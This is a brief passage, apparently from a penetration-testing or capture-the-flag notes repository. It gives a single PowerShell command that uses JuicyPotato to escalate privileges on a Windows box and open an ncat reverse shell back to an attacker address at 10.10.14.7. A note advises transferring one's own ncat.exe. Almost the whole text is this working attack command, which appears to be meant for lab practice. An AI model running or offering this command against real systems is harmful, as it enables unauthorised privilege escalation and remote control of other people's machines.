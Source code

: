 ![img](https://github.com/akshadjoshi/JARVIS/blob/main/windows/images/Pasted%20image%2020231129235234.png)


**on the box**
```powershell
.\JuicyPotato.exe -l 443 -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\Downloads\ncat.exe -e cmd.exe 10.10.14.7 445" -t *
```

**note**: `transfer your own ncat.exe`

